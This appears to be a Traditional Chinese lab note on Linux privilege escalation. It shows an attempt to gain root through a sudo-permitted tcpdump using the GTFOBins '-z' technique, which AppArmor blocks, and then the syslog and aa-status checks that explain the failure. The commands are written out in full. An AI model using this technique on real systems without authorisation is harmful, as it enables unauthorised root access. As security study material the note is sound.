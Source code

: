 ```
```
> crontab 作業、tcpdump 和 apt-get 允許 sudo

#### 1. 查詢 [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) 以取得如何利用 tcpdump
```
joe@debian-privesc:~$ COMMAND='id'
joe@debian-privesc:~$ TF=$(mktemp)
joe@debian-privesc:~$ echo "$COMMAND" > $TF
joe@debian-privesc:~$ chmod +x $TF
joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe:
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...
compress_savefile: execlp(/tmp/tmp.c5hrJ5UrsF, /dev/null) failed: Permission denied
```
> 卡關，Permission denied

#### 2. 檢查原因：`/var/log/syslog`
```
joe@debian-privesc:~$ cat /var/log/syslog | grep tcpdump
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```
>  AppArmor（一種強制存取控制（MAC）機制）阻止了 tcpdump 執行 /tmp/tmp.c5hrJ5UrsF

#### 3. 檢查 AppArmor 狀態: `aa-status`
```
joe@debian-privesc:~$ su - root
Password:
root@debian-privesc:~# aa-status
apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
...
2 profiles are in complain mode.
   libreoffice-oopslash
   libreoffice-soffice
3 processes have profiles defined.
3 processes are in enforce mode.
   /usr/sbin/cups-browsed (502)
   /usr/sbin/cupsd (654)
   /usr/lib/cups/notifier/dbus (658) /usr/sbin/cupsd
0 processes are in complain mode.
0 processes are unconfined but have a profile defined.
```
> `aa-status`: 顯示 AppArmor（應用程式安全機制）的當前狀態\
> `enforce mode`:  主動阻擋 違規行為\
> 3 個正在運行的程序 受 AppArmor 強制模式 保護:
> - /usr/sbin/cups-browsed (502)